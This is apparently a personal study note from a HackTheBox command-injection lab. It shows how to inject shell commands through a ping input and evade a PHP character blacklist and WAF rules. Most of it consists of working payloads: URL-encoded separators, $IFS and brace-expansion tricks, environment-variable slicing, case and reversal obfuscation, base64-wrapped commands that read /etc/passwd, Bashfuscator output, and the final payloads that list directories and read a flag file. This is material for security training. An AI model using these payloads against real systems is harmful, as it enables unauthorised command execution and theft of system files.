 ## 
```bash!
ping -c 1 OUR_INPUT
```
If our input is not sanitized and escaped before it is used with the ping command, we may be able to inject another arbitrary command. 

---
## <span style=color:red>**Blacklisted Characters**</span>
```php!
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```
### URL encoding
```go!
|    &     | %26 |     
| -------- | --- | 
|    |     | %7c |
| -------- | --- |     
| New-line | %0A |     
| -------- | --- |     
|   TAB    | %09 |    
| -------- | --- |     
|    ;     | %3b |     
```


### $
```bash!
H4ck3rxPK@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

```bash!
H4ck3rxPK@htb[/htb]$ echo ${PATH:1:3}

/us
```
## [<span style=color:red>**Payload**</span>](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)
### <span style=color:blue>Bypassing Space Filters</span>
#### Using Tabs
```bash!
%0a%09
```
#### Using $IFS
```bash!
%0a{IFS}
```
#### Using Brace Expansion
```bash!
%0a{ls,-la}
```
### <span style=color:blue>Bypassing Other Blacklisted Characters</span>
```bash!
${LS_COLORS:10:1}${IFS}

${LS_COLORS:10:1}%0A${IFS}ls${IFS}${PATH:0:1}home
```
#### Character Shifting
```bash!
H4ck3rxPK@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
H4ck3rxPK@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```
### <span style=color:blue>Bypassing Blacklisted Commands</span>
```bash!
${IFS}c'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
### <span style=color:darkblue>Advanced Advanced Command Obfuscation</span>
```bash!
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
![](https://hackmd.io/_uploads/SyLC2boa2.png)

![](https://hackmd.io/_uploads/rydp3-oa3.png)
---

``Need to match the space in command ➔ %09(TAB) replace %20(space)``

---
### Reverse Command
```bash!
H4ck3rxPK@htb[/htb]$ echo 'whoami' | rev
imaohw
```
```bash!
H4ck3rxPK@htb[/htb]$ $(rev<<<'imaohw')
```

### Encoded Commands
```bash!
H4ck3rxPK@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
```bash!
H4ck3rxPK@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

1. ``Find encryption by myself and decryption that to escape WAF rule``
2. ``Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.``
---
## [<span style=color:red>**Bashfuscator**](https://github.com/Bashfuscator/Bashfuscator)</span>

![](https://hackmd.io/_uploads/B1hZLV262.png)
```bash!
H4ck3rxPK@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
H4ck3rxPK@htb[/htb]$ cd Bashfuscator
H4ck3rxPK@htb[/htb]$ python3 setup.py install --user

H4ck3rxPK@htb[/htb]$ cd ./bashfuscator/bin/
H4ck3rxPK@htb[/htb]$ ./bashfuscator -h

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'
[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

H4ck3rxPK@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

## Skills Assessment Payload

#### <span style=color:red>**{COLORS_LS:10:1}Not Found**</style>
![](https://hackmd.io/_uploads/S1WPh02an.png)

#### Payload
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"LS")%09${PATH:0:1}
                                             
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"cAt")%09${PATH:0:1}flag.txt
```
#### Another Payload
```bash!
echo -n 'cat /flag.txt' | base64
```
```bash！
bash<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
```
